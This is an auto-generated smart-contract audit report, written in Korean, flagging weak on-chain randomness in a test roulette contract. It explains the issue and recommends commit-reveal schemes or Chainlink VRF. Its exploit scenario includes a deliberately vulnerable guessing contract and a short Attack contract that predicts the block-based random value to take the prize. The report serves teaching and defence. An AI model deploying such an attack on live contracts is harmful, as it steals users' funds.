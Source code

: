 <button class='date-button'>2023-11-21</button>

# Audit Report

> 🔍 `Filename`: /Users/sikk/Desktop/Antibug/SafeDevAnalyzer/test/prng/roulette.sol
---

[<button class='styled-button'>English</button>](roulette_en.md)
<br />


<style>
    .date-button{
        color:black;
        border:none;
        font-weight: bold;
        background-color: sand;
        width: 150px;
        height: 25px;
        float: right;
        border-radius: 20px;
    }
    .styled-button{
        color: black;
        border: none;
        font-weight: bold;
        background-color: lightskyblue;
        width: 100px;
        height: 30px;
        float: right;
        border-radius: 20px;
    }
    .styled-button:hover{
        color: black;
        border: none;
        font-weight: bold;
        background-color: pink;
        width: 100px;
        height: 30px;
        float: right;
        cursor: pointer;
    }
</style>

               
<details>
<summary style='font-size: 20px;'>weak-prng</summary>
<div markdown='1'>

## Detect Results

| Detector | Impact | Confidence | Info |
|:---:|:---:|:---:|:---:|
| weak-prng | <span style='color:lightcoral'> High </span> | <span style='color:olivedrab'> Medium </span> | guess 함수는 블록 변수를 이용하여 난수를 생성합니다. IF _guess == answer |||


## Vulnerabiltiy in code:

```solidity
line 6:     function guess(uint _guess) public {

```
 ---

 ```solidity
line 11:         if (_guess == answer) {

```
 ---

 
<details>

<summary style='font-size: 18px; color:pink;'> 💡 Background </summary><br />

블록체인에서 Randomness란?
- Randomness는 `pseudo-randomness`와 `true-randomness`로 구분할 수 있습니다.
    - `pseudo-randomness`는 결정론적 알고리즘에 의해 생성되며, 초기 시드 값을 알고 있다면 예측할 수 있습니다.
    - `true-randomness`는 엔트로피 소스에 의존하고 있어, 예측 불가능한 랜덤 값을 생성합니다.

- 블록체인 네트워크의 노드는 다양한 알고리즘을 이용해 `pseudo-randomness`를 생성할 수 있으며, 복권 당첨자 선정, 보상 분배, 게임에서 NFT 토큰 아이템의 희귀도, 전리품 분배 등의 시나리오에서 난수를 사용합니다.
- 그러나 블록체인은 네트워크의 모든 노드가 동일한 결론에 도달하도록 보장하기 때문에, 동일한 입력이 주어지면 컨트랙트의 출력은 항상 동일하다는 특징이 있습니다.
    
</details>

<br />

## Description:


블록체인에서는 완전한 난수를 생성할 수 없습니다.
완전한 난수가 생성되지 않는다는 것은 난수 생성에 대한 결과를 예측할 수 있어 조작을 할 수 있다는 것을 의미합니다.

완전한 난수는 `atmospheric noise`나 `user action` 등 예측할 수 없는 외부 요인에 의존해야 하지만, 스마트 컨트랙트는 이러한 요인에 직접적으로 접근할 수 없어 완전한 난수를 생성할 수 없습니다.
특히나, 스마트 컨트랙트는 개인키 생성 등 보안 메커니즘을 위해 사용하는 경우도 있으나, 공격자가 개인 키를 예측하여 계정이나 자금에 무단으로 액세스할 수도 있습니다.

블록체인에서 난수를 생성하는 방법은 크게 두 가지로 나눌 수 있습니다.

`1. 블록체인 네트워크의 노드가 생성한 난수를 사용하는 방법`

블록 변수에는 `block.basefee(uint)`, `block.chainid(uint)`, `block.coinbase()`, `block.difficulty(uint)`, `block.gaslimit(uint)`, `block.number(uint)`, `block.timestamp(uint)`, `blockhash(uint)` 등이 있으며,
이 중 `block.difficulty`, `blockhash`, `block.number`, `block.timestamp`가 난수 생성에 주로 활용됩니다.

https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties:~:text=use%20utility%20functions.-,Block%20and%20Transaction%20Properties,%EF%83%81,-blockhash(uint%20blockNumber

블록 데이터에 의해 생성되는 난수는 일반적인 사용자가 난수를 예측할 수 있는 가능성은 제한하지만, 악의적인 채굴자는 블록 데이터를 조작하여 난수를 조작할 수 있습니다.
블록 데이터는 한 블록에서 동일한 값을 갖고 있어, 같은 블록에서 난수를 생성하면 항상 동일한 결과를 얻을 수 있습니다.


`2. 외부 난수 생성기를 사용하는 방법`

블록체인 오라클에서 난수 시드를 생성할 수 있으며, 온체인 오라클을 사용해 오프체인 데이터를 온체인에서 얻을 수 있습니다.
API 데이터와 같은 외부 randomness 소스를 가져와 컨트랙트 동작에 영향을 줄 수 있어 블록체인 변수를 사용해 난수를 생성하는 것보다 예측 불가능성을 높일 수 있지만, 오라클에 대한 신뢰도 문제가 발생할 수 있습니다.
    

## Recommendation:


- `block.hash`, `block.timestamp`를 난수 생성을 위한 소스로 사용하지 않는 것이 좋습니다.
- 참가자가 미리 값을 commit하고, 모든 commit이 제출된 후 실제 값이 공개되는 방식(`Commit-Reveal Schemes`)으로 난수를 생성하는 것이 좋습니다.
- 여러 입력을 활용해 난수를 생성하는 탈중앙화 솔루션인 `Chainlink VRF(Verifiable Random Function)`를 활용하는 것이 좋습니다.
- 하드웨어 난수 생성기(RNG)를 사용해 공격자가 예측할 수 없는 무작위 값 생성하는 것이 좋습니다.  
    

## Exploit scenario:


``` solidity
contract GuessTheRandomNumber {
    constructor() payable {}
    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
 }
 ```
 
- 이전 블록의 `blockhash`와 `block.timestamp`을 난수 시드로 결합하여 업데이트 하는 방식으로 난수를 생성하고 있습니다.
- 사용자가 추측한 숫자가 생성된 숫자와 일치하면 `1 ether`를 획득하게 되는 컨트랙트이며, 무작위성이 도입된 것으로 보이지만 조작이 가능합니다.

``` solidity
contract Attack {
    receive() external payable {}

    unction attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );
 
        guessTheRandomNumber.guess(answer);
    }
 
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
 }
 ```    
 
- 공격자는 `GuessTheRandomNumber` 컨트랙트의 주소를 전달해 deploy 하여 `Attack` 컨트랙트를 생성합니다.
- attack 함수에서는 GuessTheRandomNumber 컨트랙트의 guess 로직을 동일하게 구현하여, 이전 블록의 `blockhash`와 `block.timestamp`을 난수 시드로 결합하여 업데이트 하는 방식으로 난수를 생성합니다.
- `GuessTheRandomNumber` 컨트랙트의 `guess` 함수가 동일한 블록에서 실행되면 `block.number`와 `block.timestamp`는 변경되지 않기 때문에 동일한 난수를 생성할 수 있게 되어, 공격자는 `1 ether`를 획득할 수 있습니다.  
    

## Real World Examples:


1. `SmartBillions ICO (2017)`: SmartBillions는 이더리움 기반의 로또 플랫폼으로, 공격자가 로또 게임 결과를 조작하여 상금 획득할 수 있었습니다.
    https://etherscan.io/address/0x5ace17f87c7391e5792a7683069a8025b83bbd85
    https://www.reddit.com/r/ethereum/comments/74d3dc/smartbillions_lottery_contract_just_got_hacked/   
     
2. `Fomo3D (2018)`: Fomo3D는 이더리움 스마트 컨트랙트 기반의 게임으로, 공격자가 게임 결과를 조작하여 상금을 획득할 수 있었습니다.
    https://etherscan.io/address/0xa62142888aba8370742be823c1782d17a0389da1
    https://medium.com/@zhongqiangc/randomness-in-smart-contracts-is-predictable-and-vulnerable-fomo3d-part-1-4d500c628191
    

## Reference:


- https://www.slowmist.com/articles/solidity-security/Common-Vulnerabilities-in-Solidity-Randomness.html
- https://medium.com/@solidity101/100daysofsolidity-072-source-of-randomness-in-solidity-smart-contracts-ensuring-security-and-7af014bfac22
- https://dev.to/natachi/attack-vectors-in-solidity-09-bad-randomness-also-known-as-the-nothing-is-secret-attack-ca9
- https://medium.com/rektify-ai/bad-randomness-in-solidity-8b0e4a393858
    

</details>


